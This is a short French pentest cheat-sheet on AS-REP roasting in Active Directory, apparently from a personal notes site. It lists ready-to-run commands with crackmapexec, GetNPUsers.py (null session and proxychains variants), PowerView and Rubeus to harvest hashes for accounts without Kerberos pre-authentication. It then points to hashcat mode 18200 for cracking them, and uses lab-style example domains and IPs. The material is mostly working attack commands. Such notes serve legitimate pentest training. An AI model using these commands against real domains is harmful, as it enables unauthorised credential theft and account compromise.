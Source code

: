 ```yaml
---
public: true # set to true to make the article publishable
---
```


Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

# NULL SESSION
GetNPUsers.py "$DOMAIN/" -dc-ip $TARGET -request -outputfile ASREProastables.txt

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
proxychains -q GetNPUsers.py -hashes "$PASSWORD" -dc-ip "$DC" "$DOMAIN/$USER" -debug

# Powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 


```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
